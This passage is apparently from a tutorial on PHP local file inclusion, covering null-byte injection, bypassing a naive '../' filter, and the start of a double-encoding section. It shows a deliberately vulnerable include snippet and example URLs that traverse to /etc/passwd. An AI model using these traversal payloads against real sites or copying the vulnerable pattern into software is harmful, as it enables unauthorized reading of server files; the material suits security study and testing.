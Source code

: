 so if a null byte is injected int php
```php
$tmp='try\0next'
```
Will procude in C:
```c
char tmp[9];
tmp[0] = 't';
tmp[1] = 'r';
tmp[2] = 'y';
tmp[3] = '\0';
tmp[4] = 'n';
tmp[5] = 'e';
tmp[6] = 'x';
tmp[7] = 't';
tmp[8] = '\0';
```

Go [here](http://www.madirish.net/401) for more details.

**Note**: Null byte injection has been [fixed](https://bugs.php.net/bug.php?id=39863) in PHP 5.3.4 (unsupported).

### Filter Evasion

Someone aware of previous vulnerabilities may think he will be secure wit a proper filter like:
```php
<?php
$file = str_replace('../', '', $_GET['file']);
if(isset($file))
{
  include("lib/functions/$file");
}
```

Legitimate request:
```
http://example.com/index.php?file=displaycontent
```

Bad request (HTTP char encoding):
```
http://example.com/index.php?file=..%2F..%2F..%2F..%2F..%2Fetc/passwd
```
or bad request (double all chars):
```
http://example.com/index.php?file=....//....//....//....//....//etc/passwd
```

The script replace all `../` with nothing but what if we encode slashs or dotes? or doubling them?

The first method won't work on recent PHP version but the second one will work nearly every times.

### Double encoding

Sometimes it's possible to encode some characters of the URL to bypass filters as we have seen previously. This is because the browser decodes the input but PHP does not.
